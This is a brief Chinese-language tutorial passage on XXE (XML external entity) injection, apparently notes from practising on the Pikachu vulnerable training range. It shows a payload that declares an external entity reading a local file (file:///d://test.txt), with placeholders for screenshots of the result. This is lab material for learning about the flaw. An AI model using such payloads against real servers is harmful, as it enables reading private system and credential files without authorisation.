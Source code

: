 #### 玩法-读文件

```XML

<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>
```

在D盘创建test.txt

![](image39/QQ截图20220329202600.png)

**pikachu靶场xxe**

![](image39/QQ截图20220329202826.png)

